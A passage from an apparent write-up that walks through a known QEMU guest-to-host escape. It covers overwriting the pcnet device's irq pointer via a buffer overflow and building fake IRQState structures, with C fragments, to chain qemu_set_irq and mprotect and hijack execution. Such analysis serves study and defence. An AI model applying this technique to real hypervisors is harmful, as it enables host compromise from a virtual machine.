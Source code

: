 So the 4 bytes following **buffer[4096]** happens to be part of **irq**!! It's a pointer to a structure that stores information for interrupt handler. This means that we'll be able to change this **irq** to point to fake structures that we stored in the memory, so that the behaviour of interrupt handlers will all be controlled by us.
## Fake IRQState to Control %rip
The structure **irq** points to which we want to fake looks like this:
```
struct IRQState {
    Object parent_obj;
    qemu_irq_handler handler;
    void *opaque;
    int n;
};
```
At the end of **pcnet_receive()** function, the **handler** function above will be called:
```
void qemu_set_irq(qemu_irq irq, int level)
{
    if (!irq)
        return;

    irq->handler(irq->opaque, irq->n, level);
}
```
To control how's **irq** gonna be overwritten, they have a way to generate any CRC number as they want (the method is mentioned in the article) by passing certain packet. 

The preparation for the exploit is to **allocate fake IRQStates on QEMU's physical memory**, and use the base address leaked by the CVE-2015-5165 to find out the precise address of the fake structures. Why I used the word "structures" instead of "structure"? Since they are going to use **two** fake structures to exploit the vulnerability.

Different from the real structure, their fake **IRQState** looks like this:
```
struct IRQState {
    uint8_t  _nothing[44];
    uint64_t  handler;
    uint64_t  arg_1;
    int32_t   arg_2;
};
```
Their fake structures will be defined like this:
```
struct IRQState  fake_irq[2];
hptr_t fake_irq_mem = gva_to_hva(fake_irq);

/* do qemu_set_irq */
fake_irq[0].handler = qemu_set_irq_addr;
fake_irq[0].arg_1 = fake_irq_mem + sizeof(struct IRQState);
fake_irq[0].arg_2 = PROT_READ | PROT_WRITE | PROT_EXEC;

/* do mprotect */
fake_irq[1].handler = mprotec_addrt;
fake_irq[1].arg_1 = (fake_irq_mem >> PAGE_SHIFT) << PAGE_SHIFT;
fake_irq[1].arg_2 = PAGE_SIZE;
```
Note that function **gva_to_hva** here means converting guest virtual memory to host virtual memory.
